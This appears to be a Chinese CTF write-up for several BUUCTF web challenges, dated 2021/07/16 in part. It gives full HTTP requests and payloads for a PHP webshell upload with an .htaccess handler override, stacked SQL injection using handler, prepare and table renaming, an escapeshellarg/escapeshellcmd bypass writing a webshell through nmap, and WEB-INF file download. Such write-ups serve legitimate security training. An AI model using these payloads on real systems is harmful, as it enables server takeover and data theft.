

发现上传后爆出了路径`/var/www/html/upload/797cfc851dce9d3fa8dc31e4e51690fe/bme.jpg`，那就开始试验**图片马**，可以发现内容其实**可上传的东西**很多，但是**文件尾缀名**很严格，这就需要我们用一些方法来将**图片马**解析为`php`文件，最简单的肯定是**解析漏洞**，正巧服务器也是**Nginx**，试了一下发现并不行，这时候就要转换思路，这里我们采用上传`.htaccess`文件，来使得服务器将**图片**解析为`php`，而且后台并没有对该文件做过滤，上传改文件之后，蚁剑连接之前的**图片马**，得到`flag`

#### payload

```http
POST /upload.php HTTP/1.1
Host: f3dcb447-bd60-4504-a5fb-edac13762c97.node4.buuoj.cn
Content-Length: 318
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://f3dcb447-bd60-4504-a5fb-edac13762c97.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryWKBrqt1O5reejsLg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://f3dcb447-bd60-4504-a5fb-edac13762c97.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; PHPSESSID=bd677f20100dbfa043cfaa997a5224dc
Connection: close

------WebKitFormBoundaryWKBrqt1O5reejsLg
Content-Disposition: form-data; name="uploaded"; filename="bme.jpg"
Content-Type: image/jpeg

<?php eval($_POST['bme']);?>
------WebKitFormBoundaryWKBrqt1O5reejsLg
Content-Disposition: form-data; name="submit"

一键去世
------WebKitFormBoundaryWKBrqt1O5reejsLg--
```

```http
POST /upload.php HTTP/1.1
Host: f3dcb447-bd60-4504-a5fb-edac13762c97.node4.buuoj.cn
Content-Length: 394
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://f3dcb447-bd60-4504-a5fb-edac13762c97.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryWKBrqt1O5reejsLg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://f3dcb447-bd60-4504-a5fb-edac13762c97.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; PHPSESSID=bd677f20100dbfa043cfaa997a5224dc
Connection: close

------WebKitFormBoundaryWKBrqt1O5reejsLg
Content-Disposition: form-data; name="uploaded"; filename=".htaccess"
Content-Type: image/jpeg

<FilesMatch "bme.jpg">
SetHandler application/x-httpd-php #匹配到的文件按照php解析
AddHandler php5-script .jpg #其他按照jpg解析
</FilesMatch>
------WebKitFormBoundaryWKBrqt1O5reejsLg
Content-Disposition: form-data; name="submit"

一键去世
------WebKitFormBoundaryWKBrqt1O5reejsLg--

```

### Ez_bypass

> MRCTF 2020

#### 题目

题目一进去给了一大段代码

```php
<?php
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd))
            {
                 if($passwd==1234567)
                 {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 }
                 else
                 {
                     echo "can you think twice??";
                 }
            }
            else{
                echo 'You can not get it !';
            }

        }
        else{
            die('only one way to get the flag');
        }
}
    else {
        echo "You are not a real hacker!";
    }
}
else{
    die('Please input first');
}
} 
```

这道题没啥难度，主要是**md5的弱等于绕过采用数组绕过**，以及**字符串与数字的弱等于**

#### payload

```http
POST /?gg[]=1&id[]=2 HTTP/1.1
Host: a1d7ece0-2608-4207-ad35-62424424bed4.node4.buuoj.cn
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://a1d7ece0-2608-4207-ad35-62424424bed4.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://a1d7ece0-2608-4207-ad35-62424424bed4.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

passwd=1234567a
```

### Blacklist

> GYCTF 2020

#### 题目

这个题考察的是堆叠注入和`handler`的用法，进去是一个简单的界面



输入`1`,`2`,`3`,`1' or '1'='1`分别有不同的返回值



这道题应该是一个**SQL注入的题目**，将返回结果也显示出来，试试联合查询，发现waf



后台对上面的关键字进行了过滤，**常规方法只能爆出数据库名，而不能完整爆出flag**，需要用其他方法，这里采用**堆叠注入**，可以爆出**表，列名**





但是我们无法再继续下去了，因为关键字过滤的太多，导致**预编译**以及**重命名**两种方案都不行，这里采用一种新的方案`handler`

> `HANDLER ... OPEN`语句打开一个表，使其可以使用后续`HANDLER ... READ`语句访问，该表对象未被其他会话共享，并且在会话调用`HANDLER ... CLOSE`或会话终止之前不会关闭
>
> - `handler tablename open // 获取一个tablename的句柄`
> - `handler tablename read first // 查看句柄第一行`
> - `handler tablename read next // 查看下一行`
> - `handler tablename close`

利用上面这种方法，我们可以读取到`flag`

#### payload

```
?inject=1'^extractvalue(1,concat('~',database()))%23
// error 1105 : XPATH syntax error: '~supersqli'
?inject=1';show tables;
// return table names
?inject=1';show columns from FlagHere;
// return column names
?inject=1';handler `FlagHere` open;handler `FlagHere` read first;
// return flag
```

### 随便注

> 强网杯 2019

#### 题目

本题目和上面一题基本相同，本体可采用的是**预编译**和**对调名字**两种方法

进入界面，和上一道题基本相同



继续采用上到题的方案进行**堆叠查询**出**表名，列名**





继续联合查询，查询出过滤的关键字



可以发现`set`，`prepare`，`rename`，`alter`都没有被过滤，有两种方案

##### 预处理语句

> [MySQL的SQL预处理(Prepared)](https://www.cnblogs.com/geaozhang/p/9891338.html)

原理还是比较好理解的，主要是本体直接用`set`和`prepare`不行，因为有过滤



##### 对调名字

由上面的探测我们可以猜测出这里会查询出words表的data列的结果，也就是`select * from words where id = '';`

如果我们能将语句换成``select * from `1919810931114514` where flag = '';``那么就能得到flag了

> - `alter table user rename to users // 将表名从user改成users`
> - `alter table users change username name varchar(30) //将列名从username改为name`

我们可以先将`words`表改变为一个其他名字，然后将`1919810931114514`表命名为`words`表，在将`1919810931114514`表中原本的`flag`列改名为`id`列

#### payload

```
?inject=1';show tables;
// return table name 1919810931114514
```

```
?inject=1';Set @sql=concat("s","elect user()");PREPARE sqla from @sql;EXECUTE sqla; // 拼接
?inject=1';SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare bme from @a;execute bme; //转化为16进制
// return flag
```

```
?inject=1';alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);
?inject=1' or '1'='1
//return flag
```

## 2021/07/16

### BabyUpload

> GXYCTF 2019

#### 题目

这道题和[你传你M呢](#你传你M呢)是同一类型的题，都是上传`webshell.jpg`配合`.htaccess`来解析控制服务器

#### payload

```http
POST / HTTP/1.1
Host: 7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn
Content-Length: 336
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzMAUFel4paiiSDAr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; PHPSESSID=adef9ced961114c0cb0d697c6bd8e03e
Connection: close

------WebKitFormBoundaryzMAUFel4paiiSDAr
Content-Disposition: form-data; name="uploaded"; filename="bme.jpg"
Content-Type: image/jpeg

<script language='php'>eval($_POST['bme']);</script>
------WebKitFormBoundaryzMAUFel4paiiSDAr
Content-Disposition: form-data; name="submit"

涓婁紶
------WebKitFormBoundaryzMAUFel4paiiSDAr--
```

```http
POST / HTTP/1.1
Host: 7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn
Content-Length: 430
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzMAUFel4paiiSDAr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; PHPSESSID=adef9ced961114c0cb0d697c6bd8e03e
Connection: close

------WebKitFormBoundaryzMAUFel4paiiSDAr
Content-Disposition: form-data; name="uploaded"; filename=".htaccess"
Content-Type: image/jpeg

<FilesMatch "bme.jpg">
SetHandler application/x-httpd-php #匹配到的文件按照php解析
AddHandler php5-script .jpg #其他按照jpg解析
</FilesMatch>
------WebKitFormBoundaryzMAUFel4paiiSDAr
Content-Disposition: form-data; name="submit"

涓婁紶
------WebKitFormBoundaryzMAUFel4paiiSDAr--
```

### Online Tool

> BUUCTF 2018

#### 题目

直接给了源码

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

题是代码执行，考察的是[`escapeshellarg`和`escapeshellcmd`](http://www.lmxspace.com/2018/07/16/%E8%B0%88%E8%B0%88escapeshellarg%E5%8F%82%E6%95%B0%E7%BB%95%E8%BF%87%E5%92%8C%E6%B3%A8%E5%85%A5%E7%9A%84%E9%97%AE%E9%A2%98/)联合使用的问题

> `escapeshellarg` — 把字符串转码为可以在 shell 命令里使用的参数
>
> **功能** **：escapeshellarg() 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，shell 函数包含 exec(), system() 执行运算符(反引号)**

> `escapeshellcmd` — shell 元字符转义
>
> **功能：`escapeshellcmd()` 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 [`exec()`](http://php.net/manual/zh/function.exec.php) 或 [`system()`](http://php.net/manual/zh/function.system.php) 函数，或者 [`执行操作符`](http://php.net/manual/zh/language.operators.execution.php) 之前进行转义。**
>
> 反斜线（\）会在以下字符之前插入： *&#;`|\*?~<>^()[]{}$*, *\x0A* 和 *\xFF\*。 \*’* 和 *“* 仅在不配对儿的时候被转义。 在 Windows 平台上，所有这些字符以及 *%* 和 *!* 字符都会被空格代替

本身是安全的的，但是合在一起使用就不安全，以这道题为例，很明显是一个**命令执行**的题，`nmap`可以通过`-oG`参数写入`webshell`，但是由于`escapeshellarg`和`escapeshellcmd`的转义，会导致常规的注入失败，举个例子，如果我们正常注入`<?php eval($_POST['bme']);?> -oG 1.php`，经过这两个函数会变成这样

- `'<?php eval($_POST['\''bme'\'']);?> -oG 1.php'`

这一个首先是将两个`'`进行转义，但是转义之后，前后无法生成字符串，这时候就需要将他们用`'`括起来

- `'\<\?php eval\(\$_POST\['\\''bme'\\''\]\)\;\?\> -oG 1.php'`

而第二个则是将特殊字符进行转义，同时对未配对的单引号进行转义，看起来很乱，但是在`shell`里跑一下就知道了



我们发现有一部分由于第二个函数，导致了部分逃逸`\\`，`bme`参数也消失了，而我们就是要利用`'`在第一遍被转义，第二遍逃逸这种特性，来进行绕过，我们试一试`'<?php eval($_POST['bme']);?> -oG 1.php'`

- `''\''<?php eval($_POST["bme"]);?>  -oG 1.php'\'''`
- `''\\'' \<\?php eval\(\$_POST\["bme"\]\)\;\?\> -oG 1.php '\\'''`

在`shell`中的执行效果是这样的



我们发现，在`shell`中，许多`''`实现了逃逸，由于`\\`反斜线把自己转移了导致了`'`的逃逸

#### payload

```
?host=' <?php eval($_POST["bme"]);?> -oG 1.php '
```

### Easy Java

> RoarCTF 2019

#### 题目

题目很明显`Java`写的，一进来是一个登录页面



先点进去`help`，发现一个很典型的**Java文件下载**



> WEB-INF主要包含一下文件或目录   
>
> - `/WEB-INF/web.xml`：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则   
> - `/WEB-INF/classes/`：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中   
> - `/WEB-INF/lib/`：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件   /WEB-INF/src/：源码目录，按照包名结构放置各个java文件。   
> - `/WEB-INF/database.properties`：数据库配置文件 
>
> **漏洞检测以及利用方法：通过找到`web.xml`文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码**

先试试`WEB-INF`，但是`GET请求`怎么都不行，换成`POST请求`才可以，打开文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">

    <welcome-file-list>
        <welcome-file>Index</welcome-file>
    </welcome-file-list>

    <servlet>
        <servlet-name>IndexController</servlet-name>
        <servlet-class>com.wm.ctf.IndexController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>IndexController</servlet-name>
        <url-pattern>/Index</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>LoginController</servlet-name>
        <servlet-class>com.wm.ctf.LoginController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>LoginController</servlet-name>
        <url-pattern>/Login</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>DownloadController</servlet-name>
        <servlet-class>com.wm.ctf.DownloadController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>DownloadController</servlet-name>
        <url-pattern>/Download</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>FlagController</servlet-name>
        <servlet-class>com.wm.ctf.FlagController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>FlagController</servlet-name>
        <url-pattern>/Flag</url-pattern>
    </servlet-mapping>

</web-app>
```

发现了`flag`所在的包，继续打开`classes`，用**jadx**反编译`class`文件，base64解码即可得到`flag`

```java
import java.io.IOException;
import java.io.PrintWriter;
import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

@WebServlet(name = "FlagController")
public class FlagController extends HttpServlet {
  String flag = "ZmxhZ3s4MTkzYWRlYy1jNzQ3LTQwODktODhlMS04NTA5MmMyNTRlZTN9Cg==";
  
  protected void doGet(HttpServletRequest paramHttpServletRequest, HttpServletResponse paramHttpServletResponse) throws ServletException, IOException {
    PrintWriter printWriter = paramHttpServletResponse.getWriter();
    printWriter.print("<h1>Flag is nearby ~ Come on! ! !</h1>");
  }
}
```

#### payload

```http
POST /Download HTTP/1.1
Host: 0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn
Content-Length: 26
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn/Download?filename=help.docx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; JSESSIONID=58F821D5D809EB526A2D0EFAA010CD8B
Connection: close

filename=WEB-INF%2Fweb.xml
```

```http
POST /Download HTTP/1.1
Host: 0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn
Content-Length: 66
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn/Download?filename=help.docx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; JSESSIONID=58F821D5D809EB526A2D0EFAA010CD8B
Connection: close

filename=WEB-INF%2Fclasses%2Fcom%2Fwm%2Fctf%2FFlagController.class
```

